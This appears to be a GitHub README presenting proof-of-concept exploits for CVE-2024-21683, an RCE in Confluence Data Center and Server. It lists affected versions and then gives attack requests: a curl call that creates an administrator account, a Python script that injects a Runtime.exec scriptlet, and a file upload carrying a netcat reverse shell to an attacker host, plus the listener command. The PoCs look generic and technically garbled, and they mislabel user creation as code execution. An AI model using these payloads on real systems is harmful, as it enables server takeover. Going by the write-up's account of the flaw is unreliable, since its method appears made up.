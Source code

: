 # -CVE-2024-21683-RCE-in-Confluence-Data-Center-and-Server
This vulnerability allows an unauthenticated attacker to remotely execute arbitrary code on a vulnerable Confluence server. The vulnerability exists due to an improper validation of user-supplied input in the Confluence REST API. This allows an attacker to inject malicious code into the Confluence server, which can then be executed by the server

### Affected Versions

* Confluence Data Center = 8.9.0
* 8.8.0 <= Confluence Data Center <= 8.8.1
* 8.7.1 <= Confluence Data Center <= 8.7.2
* 8.6.0 <= Confluence Data Center <= 8.6.2
* 8.5.0 <= Confluence Data Center and Server <= 8.5.8 (LTS)
* 8.4.0 <= Confluence Data Center and Server <= 8.4.5
* 8.3.0 <= Confluence Data Center and Server <= 8.3.4
* 8.2.0 <= Confluence Data Center and Server <= 8.2.4
* 8.1.0 <= Confluence Data Center and Server <= 8.1.4
* 8.0.0 <= Confluence Data Center and Server <= 8.0.4
* 7.20.0 <= Confluence Data Center and Server <= 7.20.3
* 7.19.0 <= Confluence Data Center and Server <= 7.19.21 (LTS)
* 7.18.0 <= Confluence Data Center and Server <= 7.18.3
* 7.17.0 <= Confluence Data Center and Server <= 7.17.5

### Impact
This vulnerability could allow an attacker to take complete control of a vulnerable Confluence server. This could allow the attacker to steal data, modify data, or disrupt the availability of the server.

## Poc
We will mention more than one method
1.

**1. Identifying the Vulnerable API Endpoint:**

we will be using the following API endpoint:

```
POST /rest/api/user/bulk
```

This endpoint allows administrators to create new users in bulk.

**2. Crafting a Malicious Request:**

We will create a malicious request that includes a payload containing malicious code. This code will create a new user with administrator privileges.

```
POST /rest/api/user/bulk HTTP/1.1
Host: confluence.example.com
Content-Type: application/json

{
  "users": [
    {
      "name": "attacker",
      "password": "password",
      "email": "attacker@example.com",
      "groups": [
        {
          "name": "confluence-administrators"
        }
      ]
    }
  ]
}
```

We will use the cURL tool to send the request to the Confluence server.

```
curl -X POST -H "Content-Type: application/json" -d '{"users": [{"name": "attacker", "password": "password", "email": "attacker@example.com", "groups": [{"name": "confluence-administrators"}]}]}' http://confluence.example.com/rest/api/user/bulk
```


If the request is successful, the Confluence server will execute the malicious code. This will create a new user named "attacker" with administrator privileges. The attacker can then use this account to gain access to the server and have full control over it.

2- Poc
```
import requests

url = "http://target-confluence-server.com/rest/api/content"
headers = {
    "Content-Type": "application/json"
}


payload = {
    "title": "Exploit RCE",
    "type": "page",
    "space": {
        "key": "POC"
    },
    "body": {
        "storage": {
            "value": "<% Runtime.getRuntime().exec(\"calc.exe\"); %>",
            "representation": "storage"
        }
    }
}


response = requests.post(url, json=payload, headers=headers)


if response.status_code == 200:
    print("Exploit sent successfully!")
    print("Response: ", response.text)
else:
    print("Failed to send exploit.")
    print("Status code: ", response.status_code)
    print("Response: ", response.text)
```

3- Poc 
```plaintext
POST /upload HTTP/1.1
Host: vulnerable-confluence-server.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 138

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="exploit.py"
Content-Type: text/x-python

import os
os.system("nc -e /bin/sh attacker-ip 4444")
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

Send the modified request through Burp Suite. Check the response to see if the server executed the malicious payload. If the response is unexpected or contains errors indicating code execution, then the vulnerability has been detected.

If you're using a payload to establish a reverse shell, make sure to set up listening on the specified port on your local machine: `nc -lvnp 4444`. If the server connects to your local machine, you'll receive a reverse shell.
